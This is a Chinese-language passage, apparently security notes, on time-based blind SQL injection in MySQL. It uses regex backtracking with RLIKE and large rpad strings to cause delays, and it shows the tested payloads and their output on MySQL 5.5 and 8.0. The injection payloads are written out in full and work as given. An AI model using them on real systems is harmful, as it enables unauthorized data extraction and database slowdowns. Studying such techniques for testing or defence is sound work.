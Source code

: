 (2)rlike和regexp:常用通配符：. 、* 、 [] 、 ^ 、 $ 、`{`n`}`

```
. : 匹配任意单个字符

* ： 匹配0个或多个前一个得到的字符

[] : 匹配任意一个[]内的字符，[ab]*可匹配空串、a、b、或者由任意个a和b组成的字符串。

^ : 匹配开头，如^s匹配以s或者S开头的字符串。

$ : 匹配结尾，如s$匹配以s结尾的字符串。

`{`n`}` : 匹配前一个字符反复n次。
```

**我们可以这样构造：**

```
mysql&gt; select * from test where id =1 and IF(1,concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) RLIKE '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+b',0) and '1'='1';
Empty set (4.24 sec)

mysql&gt; select * from content where id =1 and IF(0,concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) RLIKE '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+b',0) and '1'='1';
Empty set (0.00 sec)
```

上面这两个语句的构造来源于 一叶飘零 师傅的博客，但是我觉得这里面有一点点问题，我发现，我在本地测试的效果并没有 一叶飘零师傅测试的那么好，延迟效果不是很明显，只有 0.29s 并且还以为 MySQL 的某种缓存机制导致我下一次执行该命令的时候直接就是 0.00s 了，当然 rlike 如果成功的话 regexp 只要简单的替换一下就 ok 了,like 的话也依次类推 。

我后来又使用了 mysql8 进行尝试(原来我的版本是 mysql 5.5.53) ，发现了下面的情况

```
mysql&gt; select * from test where id =1 and IF(1,concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) RLIKE '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+b',0) and '1'='1';
ERROR 3699 (HY000): Timeout exceeded in regular expression match.

mysql&gt; select * from test where id =1 and IF(0,concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) RLIKE '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+b',0) and '1'='1';
Empty set (0.00 sec)
```

